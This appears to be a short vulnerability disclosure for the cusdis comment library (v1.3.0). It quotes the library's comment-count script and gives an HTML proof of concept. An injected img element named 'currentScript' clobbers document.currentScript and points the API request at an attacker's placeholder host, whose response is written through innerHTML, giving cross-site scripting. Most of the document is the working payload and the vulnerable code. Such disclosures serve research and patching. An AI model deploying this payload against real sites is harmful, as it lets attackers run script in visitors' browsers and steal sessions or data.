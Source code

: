 ## cusdis

### Meta

+ Library: cusdis
+ Stars: 2.6K
+ Version: v1.3.0
+ Payload: ```<img name="currentScript" data-host="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

URL: 
+ `https://github.com/djyde/cusdis`


### Vulnerable Code Snippet

```javascript
async function n() {
  const e = document.currentScript || document.querySelector("#for-testing")
    , {appId: n, host: r} = e.dataset
    , a = r || "https://cusdis.com"
    , o = document.querySelectorAll("*[data-cusdis-count-page-id]")
    , i = Array.from(o).map((e => e.dataset.cusdisCountPageId))
    , s = await t.get(`${a}/api/open/project/${n}/comments/count`, {
      params: {
          pageIds: i
      }
  });
  Array.from(o).forEach((e => {
      e.innerHTML = s.data.data[e.dataset.cusdisCountPageId]
  }
  ))
}
```

### PoC
```html

<!--Library-->
<span data-cusdis-count-page-id="XXX-YYY-ZZZ">0</span> comments
<div id="cusdis_thread"
  data-host="https://cusdis.com"
  data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22"
  data-page-id="XXX-YYY-ZZZ"
  data-page-url="XXX"
  data-page-title="XXX"></div>
</div>
<script async defer src="https://cusdis.com/js/cusdis.es.js"></script>
<script defer data-host="https://cusdis.com" data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22" src="https://cusdis.com/js/cusdis-count.umd.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-host="https://xxx.xxx.xxx">
<!--Payload-->
```